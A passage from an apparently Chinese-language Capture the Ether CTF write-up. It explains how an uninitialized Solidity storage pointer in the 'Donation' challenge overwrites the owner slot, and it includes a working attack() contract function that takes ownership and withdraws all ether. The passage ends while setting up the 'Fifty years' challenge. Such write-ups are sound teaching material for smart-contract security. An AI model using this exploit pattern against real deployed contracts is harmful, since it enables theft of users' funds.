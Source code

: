 ###### [Donation](https://capturetheether.com/challenges/math/donation/)

这个挑战也涉及了合约存储布局上的问题。注意donation变量定义和赋值的位置：

```solidity
function donate(uint256 etherAmount) public payable {
        // amount is in ether, but msg.value is in wei
        uint256 scale = 10**18 * 1 ether;
        require(msg.value == etherAmount / scale);

        Donation donation;
        donation.timestamp = now;
        donation.etherAmount = etherAmount;

        donations.push(donation);
    }
```

如果常用一些高级语言写代码，这样看起来好像没什么问题，因为他们会找一块没有使用的内存位置来存储donation。然而solidity中，donation在定义出来之后并没有进行赋值(undefined)，会被定位在slot 0位置。因此`donation.timestamp = now`会将donations队列长度修改为now，` donation.etherAmount = etherAmount`会将owner修改为etherAmount，可以通过`donate()`函数进行提权。

但是这样是不是要花费大量的eth来操作？并不需要。注意到合约的`scale`实际上是$10^{36}$,而一个address是uint160，是$2^{160}$ 约$10^{42}$量级，因此最多发送$10^6$量级的eth，这是远远小于1 ether的量的，因此只需发送少量eth即可实现提权，然后调用`withdraw()`将合约的eth全部提取出来完成挑战。

by the way，现在这个问题很难产生，编译器加了检查，对于这种指针需要定义"storage", "memory" 或 "calldata"来防止这种情况发生。

```solidity
    function attack() external payable {
        uint256 etherAmount = uint256(uint160(address(this)));
        uint256 donateAmount = etherAmount / (10 ** 36);
        challenge.donate{value:donateAmount}(etherAmount);
        challenge.withdraw();
        payable(msg.sender).transfer(address(this).balance);
        require(challenge.isComplete(),"challenge is not completed!");
    }
```

###### [Fifty years](https://capturetheether.com/challenges/math/fifty-years/)

这个挑战是上述所有math挑战的综合，因此他特别具有挑战性。

这个挑战需要我将一个lock 50年的合约里的eth全部提取出来，因此我们需要将`contribution`队列中最后一次贡献的时间戳设置为一个我们能立即提取出来的值(当然是0值，这样我们能随意提取出来了)。

注意增加`contribution`项的函数：

```solidity
    function upsert(uint256 index, uint256 timestamp) public payable {
        require(msg.sender == owner);

        if (index >= head && index < queue.length) {
            // Update existing contribution amount without updating timestamp.
            Contribution storage contribution = queue[index];
            contribution.amount += msg.value;
        } else {
            // Append a new contribution. Require that each contribution unlock
            // at least 1 day after the previous one.
            require(timestamp >= queue[queue.length - 1].unlockTimestamp + 1 days);

            contribution.amount = msg.value;
            contribution.unlockTimestamp = timestamp;
            queue.push(contribution);
        }
    }
```
